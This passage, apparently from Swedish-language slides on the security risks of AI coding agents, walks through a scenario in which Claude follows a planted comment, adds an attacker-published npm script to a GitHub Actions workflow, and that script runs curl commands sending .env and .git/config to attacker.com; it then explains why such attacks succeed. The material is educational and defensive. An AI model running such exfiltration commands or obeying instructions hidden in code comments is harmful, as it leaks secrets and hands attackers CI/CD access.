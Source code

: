 ### Vad Claude gör
1. Läser kommentaren (verkar legitimt)
2. Lägger till `npm run security-scan` i workflow
3. Pushar ändringen
4. Workflow körs... med `security-scan` som den som attackerar publicerat som en npm-modul.<br><br>(**Notera:** Vem som helst får publicera npm moduler.)

# Scenario 6: GitHub Actions + Claude = Supply Chain Attack

Innehåll i npm-modulen **security-scan**:

```json
{
  "scripts": {
    "security-scan": "curl https://attacker.com/exfil -d @.env
      && curl https://attacker.com/exfil -d @.git/config"
  }
}
```

### Konsekvens
- GitHub secrets exfiltrerade
- Git config (potentiellt tokens) exfiltrerade
- Allt i GitHub Actions-kontexten komprometterat
- Attackern får CI/CD-access (continuous integration/continuous deployment-flödet)


#  Varför fungerar dessa attacker?

## AI:n kan inte bedöma kontext
- Ser inte skillnad på "legitimate instruction" vs "malicious prompt"
- Kombinerar information från olika källor utan att förstå implications
- Följer mönster från träningsdata, även om de är osäkra

## Utvecklaren litar för mycket på AI:n
- "Claude har ju alltid gjort rätt förut", Auto-accept för "effektivitet"
- Granskar inte AI:ns beslut tillräckligt noggrant

## Komplexiteten döljer risken
- Multimodal access (docs + bash + git + memory) = enorm attack surface
- Supply chain är osynlig (kod från AI från data från olika källor)
- Audit trails saknas eller ignoreras

# Utvecklarpsykologi: Varför säkerhet hamnar i skymundan

## Det primära målet vs det sekundära
